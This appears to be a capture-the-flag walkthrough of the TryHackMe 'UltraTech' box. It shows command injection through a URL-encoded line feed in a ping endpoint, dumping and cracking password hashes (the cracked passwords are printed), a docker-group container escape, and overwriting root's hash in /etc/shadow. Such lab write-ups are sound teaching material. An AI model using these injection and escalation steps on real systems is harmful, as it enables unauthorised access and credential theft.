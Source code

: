 ```yaml
---
date: 2025-01-03
categories: [CTF, THM]
title: "THM - UltraTech"
tags: ['docker breakout', 'gobuster', 'hashcat', 'nmap', 'privilege escalation', 'rce', 'sqli']

description: "UltraTech - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - UltraTech

NMAP
```bash
nmap 10.10.200.110 -p- -T5
```

![image1](../resources/336adee1e2a847c7bca8480b6abebc97.png)

```bash
nmap 10.10.200.110 -p 31331 -A
```

![image2](../resources/29ecbbb1da6341daa229d6034f4d8ee3.png)

- Directory bruteforcing:
```bash
gobuster dir -u http://10.10.200.110:8081 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image3](../resources/f6280d75e7ba4a19889faa87d2aee99d.png)

```bash
gobuster dir -u http://10.10.200.110:31331 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image4](../resources/b77d1e1548394ea39d343f7fa0244801.png)

/robots.txt


![image5](../resources/8ec45d670672469f8de522d57b5c73fd.png)

/utech_sitemap.txt


![image6](../resources/a7f0c6ca8c72487bb0ce1977835565fb.png)

/partners.html


![image7](../resources/8ea6a40830084b6488e6907a835d49fd.png)

Got a login page

- Look at traffic in Burp
Looking at <http://10.10.200.110:31331/partners.html>

The site constantly pings to see if the server is online


![image8](../resources/04192fa6ad5340638b54a7509fbae77a.png)

- Changing the parameters of the GET request we can get RCE

[URL encoding cheatsheet](https://www.eso.org/~ndelmott/url_encode.html)

- Normal space is url encoded as **%20**

- A **line feed** (0x0A) is url encoded as **%0A**
A line feed means moving one line forward. The code is **\n**

- You need to use a line feed character (**\n**) URL encoded because a normal space doesn't work

```bash
GET /ping?ip=10.10.200.110%0Als

```

![image9](../resources/7c03b9d409cc454ba470967f25716186.png)

```bash
GET /ping?ip=10.10.200.110%0Acat%20utech.db.sqlite

```

![image10](../resources/ba3f82b8006d4285ab4f9e60d344cce1.png)

(ignore the M before the names)

Found hashes:

**r00t : f357a0c52799563c7c7b76c1e7543a32**

**admin : 0d0ea5111e3c1def594c1684e3b9be84**

```bash
hash-identifier

```

![image11](../resources/603611db9b3d434cb445ee17cce637fe.png)


![image12](../resources/4da5a4e986fb4298abb1dccf4b8a7d3a.png)

- Crack with hashcat
```bash
hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt

```

![image13](../resources/ce79b4f12e29423b8e2f3a9ee2f41500.png)

- Credentials:
**r00t : n100906**

**admin : mrsheafy**

- SSH with r00t

![image14](../resources/2b769bfa5fdc49cc8c8f54a4bab7f530.png)


![image15](../resources/95fc6f33053545219c13463a93df6f13.png)
- We can see we are in the docker group

- **<u>Escape the container:</u>**

```bash
docker images

```

![image16](../resources/e70b9fee7aff4f11b8061dc5b34fc431.png)

- **<u>In Practise:</u>**

- Check gtfobins <https://gtfobins.github.io/gtfobins/docker/> for the command:


![image17](../resources/294a17f538654586a8ece330796ca81d.png)

- If we run this command we'll get an error:

![image18](../resources/3b2e0202b0394cf2b17cd2b78fea5eb7.png)

- So we need to list the available images:

```bash
docker ps -a

```

![image19](../resources/9866d3f6063d4a248c1d6726631f6379.png)

- Change the image name to **bash**

**Option 1 - command:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh

What this command does is, it creates a new container and mounts the entire ultratech-prod filesystem / to this container

```

![image20](../resources/7d683de391344a229b39081e78df1286.png)

**Option 2 - Command:**

```bash
docker run -v /:/mnt -it bash
```
What this command does is similar to Option 1, it creates a new container and mounts the entire ultratech-prod filesystem **/**. But it mounts it to **/mnt** on the container



![image21](../resources/2f7d8f390a9e4cf9b741c39d94275e78.png)


![image22](../resources/6e29f47e114f41b4a123e28a045d69ef.png)

- **We are root (in the container)**
- We can now read all the root files

- <u>To get root on the host machine (using Option 1):</u>

- On Kali - Make a MD5 hash:

```bash
mkpasswd -m md5 pass123

```

![image23](../resources/8725cc9f13d94b6682a120a9970ceec0.png)

- On the target - in the container (because we're root now)
```bash
vi /etc/shadow

```
Press **i** (for insert)

Remove the hash of the root user (second field) and replace with the hash you made


![image24](../resources/5dbfc491ee1545f6b2e3408768a6efd4.png)

```bash
Press ESC

Press :wq

ENTER

```
- exit out of the container
```bash
exit

```
```bash
su root
```
Enter password you made


![image25](../resources/4624215e87734191914682913d6ab4dc.png)


![image26](../resources/59e067c95da64a05be4f3853aefdb08f.png)